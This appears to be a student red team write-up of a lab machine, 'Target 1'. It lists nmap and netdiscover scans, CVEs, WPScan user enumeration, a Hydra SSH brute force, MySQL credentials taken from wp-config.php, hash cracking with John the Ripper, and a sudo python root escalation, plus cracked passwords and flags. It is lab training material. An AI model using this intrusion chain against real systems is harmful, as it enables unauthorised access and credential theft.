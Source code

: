 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

A netdiscover scan revealed the below IP addresses to be on the network:

```bash
$ netdiscover -r 192.168.1.255-16
```

![Pen test - Kali netdiscover -r 192 168 1 255-16](https://user-images.githubusercontent.com/88017838/153582890-fdd92bcc-9d61-4bb7-9081-01d59983567f.PNG)

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV 192.168.1.110
```

![Pen test - Kali nmap -sV 192 168 1 110](https://user-images.githubusercontent.com/88017838/153583803-da04ca70-fe0a-477d-8b35-e5a1054eeaa5.PNG)


This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp   open  ssh OpenSSH 6.7p1 Debian5+deb8u4                     
  - Port 80/tcp   open  http Apache httpd 2.4.10 ((Debian))
  - Port 111/tcp  open  rpcbind 2-4 (RPC #100000)
  - Port 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X
  - Port 445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X

Common Vulnerabilites and Exposures:

  - CVE-2021-28041 open SSH (Severity-7.1 High)
  - CVE-2017-15710 Apache httpd 2.4.10 (Severity-7.5 High)
  - CVE-2017-8779 rpcbind able to be exploited to initiate denial of service attack (Severity-7.5 High)
  - CVE-2017-7494 Samba remote code execution vulnerability (Severity-10 Critical)

### Critical Vulnerabilities:

The following vulnerabilities were found on Target 1:

- User Enumeration (Wordpress)
  - Able to obtain username details for michael and steven via 'wpscan'
  - Can then initiate brute force attacks to crack passwords for these users
  
- Weak Password
  - Brute force tools are able to easily crack user's password (password for user michael was 'michael')
  - Once the password was cracked, the attacker is able to SSH into the server

- Sensitive Data Exposure
  - Able to find a file with root user access details to MySQL database
 
- Unsalted Password Hashes
  - Password hashes located by viewing MySQL table data
  - These were unsalted and able to be cracked using 'John the Ripper' tool

- User Privilege Escalation
  - Able to utilise user steven's sudo privileges for python to escalate to root


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

- Target 1

  - `flag1.txt`:{b9bbcb33e11b80be759c4e844862482d}
  
   - **Exploit Used**
    - WPScan was used to enumerate users on the Wordpress site for Target 1
    - **`wpscan --url 192.168.1.110/wordpress --enumerate vp,u`**

![Pen test - Kali WPS scan command](https://user-images.githubusercontent.com/88017838/153717305-6f93c63e-b549-4056-b2ce-85e0a36f9ae6.PNG)
![Pen test - Kali WPScan Users identified](https://user-images.githubusercontent.com/88017838/153717542-e785b810-839e-471f-9ee7-4b5890003b9e.PNG)

- SSH using michael's credentials:
  - Focusing on the user michael, I was able to run a Hydra brute force to quickly obtain his password, which as indicated below is a weak and easily crackable one
  - hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh -t 4
  - Using michael's credentials we can then SSH into 192.168.1.110 and located flag1 by following below steps:
  - **`cd /var/www/html`**
  - **`ls -l`**
  - after investigating multiple files, the flag1 was located via nano services.html
      
![Pen test - Kali Hydra michael](https://user-images.githubusercontent.com/88017838/153717654-754970ea-af9a-4c40-8590-47abebbd7194.PNG)
![image](https://user-images.githubusercontent.com/88017838/153718079-8aa99bb7-b2c8-4a1a-9f90-d25bed0ae648.png)


  - `flag2.txt`:{fc3fd58dcdad9ab23faca6e9a36e581c}
  
   - **Exploit Used**
      - While still logged in as michael via SSH I was able to locate flag2 by following the below
      - **`cd /var/www`**
      - **`ls -l`**
      - **`cat flag2.txt`**

![image](https://user-images.githubusercontent.com/88017838/153718231-699b0a91-8495-4810-923e-253e78175acc.png)


   - `flag3.txt`:{afc01ab56b50591e7dccf93122770cd2}
   
   - **Exploit Used**
       - Locating the wp-config.php file
       - cd /var/www/html/wordpress 
       - cat wp-config.php revealed the username and password for MySQL database
 
 ![Pen test - Kali wordpress wp-config php](https://user-images.githubusercontent.com/88017838/153732790-5ff99b27-2ed4-4702-9b26-3653a5056ecd.PNG)
 
 ![Pen test - Kali wordpress wp-config php cont](https://user-images.githubusercontent.com/88017838/153732794-7e93eee8-8755-4a89-ab8a-c6c2b0d47edf.PNG)

 - MySQL server:
   - Using the command mysql -u root -p and the credentials found in wp-config.php we were able to gain access to the MySQL server
   - The **`show databases;`** command reveals wordpress database which we can then access with **`use wordpress;`**
   - **`show tables;`** then reveals two unsalted password hashes for users michael and steven
   - **`select * from wp_posts;`** further investigation using this command reveals flag3
 
 ![Pen test - Kali mysql michael ssh](https://user-images.githubusercontent.com/88017838/153732968-d29dcfed-9f99-4c7c-a60a-c783c1961818.PNG)

 ![Pen test - Kali wp_posts user hashes](https://user-images.githubusercontent.com/88017838/153732974-8bdb86b1-9566-43fa-a6ac-8bb7eae7b6c1.PNG)

 ![image](https://user-images.githubusercontent.com/88017838/153733028-890cd68f-010e-4828-98d4-cb3f4b61703e.png)

   - `flag4.txt`:{715dea6c055b9fe3337544932F2941ce}
     
   - **Exploit Used**
       - Misconfigured privilege escalation and unsalted hashes from MySQL database
       - Using the hashes found previously in the MySQL database for michael and steven we extracted these to a wp_hashes.txt file and ran John the Ripper
       - **`john wp_hashes.txt`**
       - Once the hash for user steven was cracked we can SSH into 192.168.1.110 using password pink84
       - Here we ran **`sudo -l`** followed by **`sudo python -c 'import pty;pty.spawn("/bin/bash")'`** to escalate to root 
       - As indicated below, the exploit was successful and we were able to change to root and locate flag4
  
  ![image](https://user-images.githubusercontent.com/88017838/153733258-7942f54a-f1e1-4843-9707-3d353d2b8419.png)
  
  ![Pen test - Kali ssh steven and root Raven](https://user-images.githubusercontent.com/88017838/153733293-33877a56-3833-4f03-8cdb-217d4aea4f5f.PNG)


  
     
